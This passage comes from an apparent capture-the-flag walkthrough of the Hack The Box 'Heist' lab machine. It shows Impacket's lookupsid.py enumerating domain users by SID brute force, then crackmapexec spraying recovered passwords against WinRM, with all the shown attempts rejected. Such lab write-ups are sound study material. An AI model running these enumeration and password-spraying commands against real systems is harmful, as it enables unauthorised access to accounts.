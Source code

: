 Nothing useful again.

We can use a tool from `Impackets` called `lookupsid.py`
> lookupsid.py: A Windows SID brute forcer example through [MS-LSAT] MSRPC Interface, aiming at finding remote users/groups.

```bash
root@w0lf:/opt/impacket-impacket_0_9_20/examples# python lookupsid.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
And we got some new users, I added them to my `user.txt`, Now run `crackmapexec` again.

## Getting User Shell

This time I get `Access Denied` while trying `Chase:Q4)sJu\Y8qz*A3?d`, So Let's try login with them.
```bash
root@w0lf:~/CTF/HTB/Boxes/Heist# crackmapexec winrm 10.10.10.149 -u user.txt -p password.txt 
WINRM       10.10.10.149    5985   NONE             [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   NONE             [-] None\Chase:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\Chase:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\hazard:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\hazard:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\hazard:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\rout3r:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\rout3r:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\rout3r:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\admin:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\admin:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\admin:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\support:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\support:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\support:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\Jason:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\Jason:stealth1agent "the specified credentials were rejected by the server"
```